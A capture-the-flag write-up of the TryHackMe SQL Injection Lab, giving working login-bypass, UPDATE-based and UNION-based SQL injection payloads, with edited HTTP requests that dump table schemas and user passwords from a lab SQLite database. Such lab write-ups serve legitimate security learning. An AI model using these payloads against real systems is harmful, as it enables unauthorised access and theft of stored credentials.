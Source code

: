 # Tryhackme SQL Injection Lab

![SQL Injection lab](../.res/2023-07-08-15-19-56.png)

- [Room on THM](https://tryhackme.com/room/sqlilab)  

## Introduction to SQL Injection: Part 1

### SQL Injection 1: Input Box Non-String

We have a login page. We need to bypass login  
This payload worked `1 or 1=1; --`  
![bypass login](../.res/2023-07-08-15-28-31.png)  

### SQL Injection 2: Input Box String

The payload that worked was `1' or 1=1; --`  

![SQL Injection 2](../.res/2023-07-08-15-32-38.png)  

### SQL Injection 3: URL Injection

For this one to work, we need to intercept the request (there is a client side check that block from putting special char)  
So first we put legit chars and then we modify our request live. This payload works `1' or 1=1; --`  

- Initial request

```http
GET /sesqli3/login?profileID=1&password=ss HTTP/1.1
Host: 10.10.2.114:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.2.114:5000/sesqli3/login?next=http%3A%2F%2F10.10.2.114%3A5000%2Fsesqli3%2Fhome
DNT: 1
Connection: close
Cookie: session=.eJy9j71OxDAQhN9l6xRe_zs1QqK5jjpa2xtkkbsE-04Ine7dcTgkKKkoZ2ZntN8VjlROtG3Ty6VkOiWGcaal8QCN29tScMp0Jhiv8Pz0ACMOwL2xwAgwwImO_R4eay-upe1OSa-Hu9vVRq1taz0fatfeCiONEaiF19_h-1pzj3TyanYi0awIU6Ckk3ZZBm1YzM7PLitDLgXU5Bk9WkWJpfKEkdli3NfqOpeF9x8BRTcaLVQ_YJRG3H5gLo3rVPIXyN2T_wHobBTGaw4hOhF1cJGs9spEZMOapUAjtXGWApLzSpHvrGg5qqRSX_wroPwFePsEOtCNIQ.ZKm5jg.4ICVFxM5DUc8Dez2qbd-t0IZX0w
Upgrade-Insecure-Requests: 1
```

- Edited request

```http
GET /sesqli3/login?profileID=1'+or+1%3d1%3b+--&password=ss HTTP/1.1
Host: 10.10.2.114:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.2.114:5000/sesqli3/login?next=http%3A%2F%2F10.10.2.114%3A5000%2Fsesqli3%2Fhome
DNT: 1
Connection: close
Cookie: session=.eJy9j71OxDAQhN9l6xRe_zs1QqK5jjpa2xtkkbsE-04Ine7dcTgkKKkoZ2ZntN8VjlROtG3Ty6VkOiWGcaal8QCN29tScMp0Jhiv8Pz0ACMOwL2xwAgwwImO_R4eay-upe1OSa-Hu9vVRq1taz0fatfeCiONEaiF19_h-1pzj3TyanYi0awIU6Ckk3ZZBm1YzM7PLitDLgXU5Bk9WkWJpfKEkdli3NfqOpeF9x8BRTcaLVQ_YJRG3H5gLo3rVPIXyN2T_wHobBTGaw4hOhF1cJGs9spEZMOapUAjtXGWApLzSpHvrGg5qqRSX_wroPwFePsEOtCNIQ.ZKm5jg.4ICVFxM5DUc8Dez2qbd-t0IZX0w
Upgrade-Insecure-Requests: 1
```

### SQL Injection 4: POST Injection

We need to process the same and intercept the traffic. This payload `1' or 1=1; --` worked (it has to be url encoded)  

- Original request

```http
POST /sesqli4/login HTTP/1.1
Host: 10.10.2.114:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.2.114:5000/sesqli4/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://10.10.2.114:5000
DNT: 1
Connection: close
Cookie: session=.eJy90T1PAzEMBuD_krlDnDhfNyMklm7MleM46MTROy6tEKr630kpEgwMnTrmdWzliU_qjcY9Lcvu5TgW2rOoodLUZKOatPdphF2hA6nhpJ6fHtQAGyW9Y1KDUhu1p7d-Xz2uvXEe2yUZ-XV7TftpodaWeT1s136OXjvjnAbUEX-KH_Naegk52ho0U7UEnIiRMRST0ImuIdZQrKPACZCiQARvicXYSJBFPOTLtHWu4ySXNyrQPWg00fqpBuP0-RdzbLLuxvINuWbmHsDgs3YRJaUcdMYUMnmM1mUQJyhGgzPogqcEFKK1FLsVvGTLlvvEW4HmH6C9B5C5IoOGFJ3YLNQ3F7qAqs8Sk9WxZO712o22SO4f0PeLnk0pCQH4VqD9Azx_AXCNz54.ZKm8BQ.AsuEoQn78yRUZfqQYn1RJ1d0KEk
Upgrade-Insecure-Requests: 1

profileID=t&password=t
```

- Edited request

```http
POST /sesqli4/login HTTP/1.1
Host: 10.10.2.114:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.2.114:5000/sesqli4/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.10.2.114:5000
DNT: 1
Connection: close
Cookie: session=.eJy90T1PAzEMBuD_krlDnDhfNyMklm7MleM46MTROy6tEKr630kpEgwMnTrmdWzliU_qjcY9Lcvu5TgW2rOoodLUZKOatPdphF2hA6nhpJ6fHtQAGyW9Y1KDUhu1p7d-Xz2uvXEe2yUZ-XV7TftpodaWeT1s136OXjvjnAbUEX-KH_Naegk52ho0U7UEnIiRMRST0ImuIdZQrKPACZCiQARvicXYSJBFPOTLtHWu4ySXNyrQPWg00fqpBuP0-RdzbLLuxvINuWbmHsDgs3YRJaUcdMYUMnmM1mUQJyhGgzPogqcEFKK1FLsVvGTLlvvEW4HmH6C9B5C5IoOGFJ3YLNQ3F7qAqs8Sk9WxZO712o22SO4f0PeLnk0pCQH4VqD9Azx_AXCNz54.ZKm8BQ.AsuEoQn78yRUZfqQYn1RJ1d0KEk
Upgrade-Insecure-Requests: 1

profileID=1'+or+1%3d1%3b+--&password=t
```

## Introduction to SQL Injection: Part 2

### SQL Injection 5: UPDATE Statement

We need to login with the creds `10`:`toor`  
Then we have to access to "Edit Profile"  
The injection seems to work in the email field  
and when we using `',nickName=sqlite_version(),email='` it seems to be sqlite.  

![sqlite](../.res/2023-07-08-16-12-08.png)  

With this payload we get this `',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='`  

![list tables](../.res/2023-07-08-16-14-37.png)  

Let's try to see what is in `secrets`  

`',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='`  

![create table](../.res/2023-07-08-16-18-06.png)  

`',nickName=(SELECT group_concat(id || "," || author || "," || secret || ":") from secrets),email='`  

And we get the flag!  

## Vulnerable Startup: Broken Authentication

Here the payload that worked is `admin' or 1=1 --`  

## Vulnerable Startup: Broken Authentication 2

We can bypass login using the same payload as before.  

I won't go in details here, you just need to follow the explaination in the task if you are stuck.  

> Note: the chall that I did not cover here can be done by refering to the task in case you are stuck on your own.

## Vulnerable Startup: Book Title 1

Using the NULL method we can see that it needs 4 fields `') UNION SELECT NULL, NULL, NULL, NULL-- -`  

![null](../.res/2023-07-08-17-17-28.png)  

Using this payload we find the tables  
`') UNION SELECT group_concat(tbl_name), group_concat(tbl_name), group_concat(tbl_name), group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -`  

![get tables](../.res/2023-07-08-17-22-07.png)  

Using this payload we get more information about the users table  
`') UNION SELECT sql, sql, sql, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -`  

![users](../.res/2023-07-08-17-23-07.png)

Finally, using this payload we can get dump the users table and get the flag  
`') UNION SELECT id, username, password, id from users-- -`  

## Vulnerable Startup: Book Title 2

`' Union select '-1''union select 1, 2, 3, 4-- -`  

### Coming soon